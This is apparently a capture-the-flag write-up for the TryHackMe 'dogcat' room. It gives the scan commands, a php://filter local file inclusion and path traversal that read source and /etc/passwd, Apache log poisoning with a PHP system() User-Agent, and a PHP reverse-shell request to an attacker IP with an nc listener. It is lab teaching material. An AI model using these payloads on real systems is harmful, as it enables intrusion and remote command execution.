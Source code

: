 # dogcat

**Room Link:** [https://tryhackme.com/room/dogcat](https://tryhackme.com/room/dogcat)



### Initial Scan

**Kali**

<pre><code><strong>nmap -A $VICTIM
</strong></code></pre>

<figure><img src="../../.gitbook/assets/image (393).png" alt=""><figcaption></figcaption></figure>

### Scan all ports

**Kali**

<pre><code><strong>nmap -sV -sT -O -p 1-65535 $VICTIM
</strong></code></pre>



### TCP/80 - HTTP

**Kali**

```
gobuster dir -u http://$VICTIM -w /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -x php,html,txt
```



**Browser**

```
http://10.10.228.190/?view=php://filter/convert.base64-encode/resource=dog
```

**Kali**

```
echo "PGltZyBzcmM9ImRvZ3MvPD9waHAgZWNobyByYW5kKDEsIDEwKTsgPz4uanBnIiAvPg0K" | base64 -d
```

<figure><img src="../../.gitbook/assets/image (394).png" alt=""><figcaption></figcaption></figure>

**Browser**

```
http://10.10.228.190/?view=php://filter/convert.base64-encode/resource=dog/../index
```

**Kali**

```
echo "PCFET0NUWVBFIEhUTUw+CjxodG1sPgoKPGhlYWQ+CiAgICA8dGl0bGU+ZG9nY2F0PC90aXRsZT4KICAgIDxsaW5rIHJlbD0ic3R5bGVzaGVldCIgdHlwZT0idGV4d
C9jc3MiIGhyZWY9Ii9zdHlsZS5jc3MiPgo8L2hlYWQ+Cgo8Ym9keT4KICAgIDxoMT5kb2djYXQ8L2gxPgogICAgPGk+YSBnYWxsZXJ5IG9mIHZhcmlvdXMgZG9ncyBvciBjYXRzPC9pPgoKICAgIDxkaXY+
CiAgICAgICAgPGgyPldoYXQgd291bGQgeW91IGxpa2UgdG8gc2VlPzwvaDI+CiAgICAgICAgPGEgaHJlZj0iLz92aWV3PWRvZyI+PGJ1dHRvbiBpZD0iZG9nIj5BIGRvZzwvYnV0dG9uPjwvYT4gPGEgaHJ
lZj0iLz92aWV3PWNhdCI+PGJ1dHRvbiBpZD0iY2F0Ij5BIGNhdDwvYnV0dG9uPjwvYT48YnI+CiAgICAgICAgPD9waHAKICAgICAgICAgICAgZnVuY3Rpb24gY29udGFpbnNTdHIoJHN0ciwgJHN1YnN0ci
kgewogICAgICAgICAgICAgICAgcmV0dXJuIHN0cnBvcygkc3RyLCAkc3Vic3RyKSAhPT0gZmFsc2U7CiAgICAgICAgICAgIH0KCSAgICAkZXh0ID0gaXNzZXQoJF9HRVRbImV4dCJdKSA/ICRfR0VUWyJle
HQiXSA6ICcucGhwJzsKICAgICAgICAgICAgaWYoaXNzZXQoJF9HRVRbJ3ZpZXcnXSkpIHsKICAgICAgICAgICAgICAgIGlmKGNvbnRhaW5zU3RyKCRfR0VUWyd2aWV3J10sICdkb2cnKSB8fCBjb250YWlu
c1N0cigkX0dFVFsndmlldyddLCAnY2F0JykpIHsKICAgICAgICAgICAgICAgICAgICBlY2hvICdIZXJlIHlvdSBnbyEnOwogICAgICAgICAgICAgICAgICAgIGluY2x1ZGUgJF9HRVRbJ3ZpZXcnXSAuICR
leHQ7CiAgICAgICAgICAgICAgICB9IGVsc2UgewogICAgICAgICAgICAgICAgICAgIGVjaG8gJ1NvcnJ5LCBvbmx5IGRvZ3Mgb3IgY2F0cyBhcmUgYWxsb3dlZC4nOwogICAgICAgICAgICAgICAgfQogIC
AgICAgICAgICB9CiAgICAgICAgPz4KICAgIDwvZGl2Pgo8L2JvZHk+Cgo8L2h0bWw+Cg==" | base64 -d
```

<figure><img src="../../.gitbook/assets/image (395).png" alt=""><figcaption></figcaption></figure>



**Browser**

```
http://10.10.228.190/?view=dog/../../../../etc/passwd&ext=
```

<figure><img src="../../.gitbook/assets/image (396).png" alt=""><figcaption></figcaption></figure>



**Kali**

```
e
```

<figure><img src="../../.gitbook/assets/image (397).png" alt=""><figcaption></figcaption></figure>

**Burp**

```
GET /?view=dog/../../../../var/log/apache2/access.log&ext=&cmd=ls HTTP/1.1
Host: 10.10.129.114
User-Agent: <?php system($_GET['cmd']);?>
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
```

<figure><img src="../../.gitbook/assets/image (398).png" alt=""><figcaption></figcaption></figure>

**Kali**

```
nc -lvnp 1337
```

**Burp**

```
GET /?view=dog/../../../../var/log/apache2/access.log&ext=&cmd=php+-r+'$sock%3dfsockopen("10.10.145.14",1337)%3bexec("sh+<%263+>%263+2>%263")%3b' HTTP/1.1
Host: 10.10.129.114
User-Agent: <?php system($_GET['cmd']);?>
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
```

<figure><img src="../../.gitbook/assets/image (399).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (400).png" alt=""><figcaption></figcaption></figure>

Get autocomplete

```
script -qc /bin/bash /dev/null
ctrl + Z
stty raw -echo;fg
```











